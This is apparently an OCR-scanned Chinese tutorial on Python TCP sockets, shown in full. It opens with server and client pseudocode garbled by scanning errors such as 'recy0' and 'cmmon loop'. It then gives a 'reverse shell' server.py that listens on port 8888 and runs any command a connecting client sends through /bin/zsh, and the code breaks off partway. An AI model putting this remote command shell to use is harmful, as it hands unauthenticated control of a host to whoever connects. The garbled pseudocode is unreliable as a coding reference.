 

创建连接之后要关闭



###### 实例:

```bash
## 1.创建-个TCP服务器
SS. = socket()	#创建服务器套接字
ss.bind()	#把地址绑定到套接字上
s.listen()	#监听连接
inf loop;	#服务器无限循环
	CS.= ss.accept()	#接受客户端连接
cmmon loop;	#通信循环
	s.recy0/cs.send0	#对话(接受与发送)
cs.close0	#关闭客户端套接字


## 2、创建一个TCP客户端
cs.socket()	#创建客户端套接字
cs.connect()	#尝试连接套接字
common loop:	#通信循环
	cs.recx0/cs.send()	#对话(接受与发送)
cs.close()	#关闭客户端套接字

```







**反弹Shell：**

在客户端获取服务端的shell

1.获取Linux的shell：

server.py

```python
"""
反弹shell
"""
import socket
from subprocess import Popen,PIPE     # 执行系统命令

HOST = ''   # 如果是本机最为服务端，地址可以不用填写
PORT = 8888
BUFSIZE = 1024
ADDR = (HOST,PORT)
tcp_server = socket.socket()   # type默认是tcp
tcp_server.bind(ADDR)
tcp_server.listen(5)
print("开始监听")

while True:
    # 服务端和客户端的循环连接
    print("Waiting fpr connecting...")
    coon, addr = tcp_server.accept()  # 获取对等套接字(conn), 以及客户端地址(addr). 这个【只执行一次】，放到外面防止阻塞
    print("... connected from:" + str(addr))
    # 下面是通信的循环
    while True:
        data = coon.recv(BUFSIZE)          # 读取客户端发送的消息 （指明一次性能接收的最大字节数量）
        if data:
            try:
                # 执行获取服务端的系统命令（在客户端连接后可以执行服务端的命令）
                cmd = Popen(['/bin/zsh', '-c', data], stdin=PIPE, stdout=PIPE)
                cmd_data = cmd.stdout.read()
```